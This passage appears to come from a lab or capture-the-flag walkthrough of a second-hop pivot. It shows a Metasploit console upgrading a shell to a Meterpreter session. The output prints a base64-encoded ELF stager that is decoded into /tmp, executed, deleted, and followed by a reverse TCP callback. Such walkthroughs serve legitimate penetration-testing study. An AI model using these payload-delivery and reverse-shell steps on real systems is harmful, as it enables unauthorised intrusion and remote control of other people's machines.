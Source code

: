 ```
```

For a more comfortable access we use the `shell_to_meterpreter` module on our new session, set the lhost to the ip from the web machine in the 192.168.254.0/24 subnet and run it. This might look like it failed but another meterpreter session opens giving us easy access in the second hop.

```
msf6 exploit(multi/handler) > use shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

[*] Using post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set session 6
session => 6
msf6 post(multi/manage/shell_to_meterpreter) > set lhost 192.168.254.2
lhost => 192.168.254.2
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 6
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.254.2:4433 via the meterpreter on session 2
[*] Sending stage (984904 bytes) to ::ffff:192.168.254.3
[-] Error: Unable to execute the following command: "echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towKj+AmgCABFRieFqZlhQUVeJ4UPNgIXAeRl
OdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/YwiCY.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc
 -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/qI
Afk' < '/tmp/YwiCY.b64' ; chmod +x '/tmp/qIAfk' ; '/tmp/qIAfk' & sleep 2 ; rm -f '/tmp/qIAfk' ; rm -f '/tmp/YwiCY.b64'"
[-] Output: "[1] 70713"
[*] Stopping exploit/multi/handler
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > [*] Meterpreter session 7 opened (::ffff:192.168.254.2:4433 -> ::ffff:192.168.254.3:38654) at 2021-06-20 09:22:49 +0000

msf6 post(multi/manage/shell_to_meterpreter) >
```
